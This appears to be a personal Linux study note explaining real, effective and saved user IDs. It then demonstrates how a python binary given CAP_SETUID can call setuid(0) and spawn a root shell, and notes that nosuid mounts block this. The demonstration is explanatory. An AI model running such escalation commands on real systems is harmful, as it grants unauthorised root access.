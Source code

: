# How is used
## the real user ID (RUID) of a process?

It identifies  the real  owner of  the process and  affects the  permissions for
sending signals.

A process  without superuser privileges can  signal another process only  if the
sender's RUID (or EUID) matches receiver's RUID (or SUID).
Because a child  process inherits its RUID  from its parent, a  child and parent
can signal each other.

<https://en.wikipedia.org/wiki/User_identifier#Real_user_ID>

## the effective user ID (EUID) of a process?

It's used for most access checks.
It's also used as the owner for files created by that process.

<https://en.wikipedia.org/wiki/User_identifier#Effective_user_ID>

## the Saved User ID (SUID) of a process?

It's  used when  a process  running with  elevated privileges  needs to  do some
unprivileged work temporarily; changing EUID  from a privileged value (typically
0) to some unprivileged value causes the privileged value to be stored in SUID.

Later, the process's EUID  can be set back to the value stored  in SUID, so that
elevated privileges can be restored.

<https://en.wikipedia.org/wiki/User_identifier#Saved_user_ID>

##
# How can a misconfigured file capability let an attacker escalate privileges?

    $ cd /tmp
    $ cp "$(which python)" python
    $ sudo setcap CAP_SETUID+ep python
    $ ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # whoami
    root

---

Note that this doesn't work on a filesystem mounted with the `nosuid` option.
That's why it  doesn't work if you  run the previous commands  from under `/run`
instead of `/tmp`, on Ubuntu 20.04:

    $ grep '/run ' /etc/mtab
    tmpfs /run tmpfs rw,nosuid,nodev,noexec,relatime,size=369988k,mode=755,inode64 0 0
                        ^----^
